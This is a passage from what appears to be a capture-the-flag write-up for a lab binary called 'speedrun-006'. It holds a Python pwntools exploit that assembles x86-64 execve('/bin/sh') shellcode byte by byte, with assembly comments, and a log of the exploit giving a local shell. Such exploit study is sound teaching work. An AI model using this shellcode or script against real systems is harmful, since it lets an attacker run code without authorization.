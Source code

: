 ```
  400089:   48 b9 2f 62 69 6e 2f    movabs rcx,0x68732f6e69622f
  400090:   73 68 00
  400093:   48 89 0f                mov    QWORD PTR [rdi],rcx
  400096:   48 31 f6                xor    rsi,rsi
  400099:   48 31 d2                xor    rdx,rdx
  40009c:   0f 05                   syscall
'''
# mov    al,0x3b
shellcode = "\xb0\x3b"

# lea    rdi,[rip+0xfffffffffffffff8]
shellcode += "\x48\x8d\x3d\xf8\xff\xff\xff"

# movabs rcx,0x68732f6e69622f
shellcode += "\x48\xb9\x2f\x62\x69\x6e\x2f"
shellcode += "\x73\x68\x00"

# mov    QWORD PTR [rdi],rcx
shellcode += "\x48\x89\x0f"

#xor    rsi,rsi
shellcode += "\x48\x31\xf6"

#xor    rdx,rdx
shellcode += "\x48\x31\xd2"

#syscall
shellcode += "\x0f\x05"

# Send the secondary shellcode
target.send(shellcode)

target.interactive()
```

When we run it:
```
$ python exploit.py
[!] Could not find executable 'speedrun-006' in $PATH, using './speedrun-006' instead
[+] Starting local process './speedrun-006': pid 9419
[*] running in new terminal: /usr/bin/gdb -q  "./speedrun-006" 9419 -x "/tmp/pwnE1hBZ0.gdb"
[+] Waiting for debugger: Done
w
[*] Switching to interactive mode
How good are you around the corners?
Send me your ride
$ w
$ w
 02:12:55 up  1:35,  1 user,  load average: 0.56, 0.60, 0.63
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               00:40   ?xdm?   9:17   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
core  exploit.py  readme.md  scan.asm  shellcode.asm  speedrun-006
$
[*] Interrupted
[*] Stopped process './speedrun-006' (pid 9419)
```

Just like that, we got a shell. Although how I handles I/O lead to a bit of a weird exploitation process (I needed to use `raw_input()` as a pause).